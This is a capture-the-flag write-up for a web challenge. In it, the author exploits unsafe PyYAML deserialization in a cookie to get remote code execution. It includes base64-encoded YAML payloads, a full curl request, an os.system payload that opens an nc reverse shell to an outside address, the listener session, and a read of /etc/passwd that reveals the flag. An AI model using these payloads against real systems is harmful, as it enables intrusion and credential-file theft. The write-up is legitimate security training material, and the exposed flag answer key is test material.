 
# Challenge Name: Bad Request


![date](https://img.shields.io/badge/date-02.03.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![crypto category](https://img.shields.io/badge/category-Web-blueviolet.svg)   
![level](https://img.shields.io/badge/level-Medium-blue.svg)
![score](https://img.shields.io/badge/score-100-blue.svg)




## Detailed solution

Opening the challenge link http://52.59.239.147/api/v1/ we found a json output  

```json
{
  "api_data": "The api is still under construction, updates coming soon!"
}
```

I start checking the response headers, we have a base64 encoded data in cookie  

```
Cookie: data=YXBpX2RhdGE6IFRoZSBhcGkgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==  
```
Let's decode it : api_data: The api is still under construction, updates coming soon!  

It give us the same as the response output.

The challenge description refer to a use of Python YAML, there's a known vulnerability in PyYamal, a deserialization RCE attack  

https://dl.packetstormsecurity.net/papers/general/yaml-deserialization.pdf  

Now we need to use a payload and put it insid cookie, i started by a payload to run the command "ls"   

```
test: !!python/object/apply:subprocess.check_output ["ls"]
encode with base64 : dGVzdDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFsibHMiXQo=
```
I'll use curl to send the request  

```
curl 'http://52.59.239.147/api/v1/' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: en-US,en;q=0.9,ar;q=0.8,fr;q=0.7' \
  -H 'Cookie: data=InRlc3QiOiAhIXB5dGhvbi9vYmplY3QvYXBwbHk6c3VicHJvY2Vzcy5jaGVja19vdXRwdXQgWyJscyJdCg==' \
  --compressed \
  --insecure
```  
We can see all files in the app directory. (the output now is different from the day i solved the challenge)

The challenge description talk about the passwd file so the solution for the challenge is to read the /etc/passwd.  

I tried to use the command cat with the payload but i was not able to print the file content.  

I'll use the os.system to create a reverse shell using nc 

```
test: !!python/object/apply:os.system ["nc 10.10.10.10 4444 -e /bin/bash"]
``` 
I got a reverse shell   

```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.1.100] from (UNKNOWN) [52.59.239.147] 37595
id
uid=1000(app) gid=1000(app) groups=1000(app) 
```   
Let's read the passwd file 
  
```bash
cat /etc/passwd  

administrator:FLAG{aa330d7755f14d398cbfef715bbf36f59a8cfae5}:1000:1000:administrator,,,:/home/administrator:/bin/bash
```  

## Flag

```
FLAG{aa330d7755f14d398cbfef715bbf36f59a8cfae5}
```
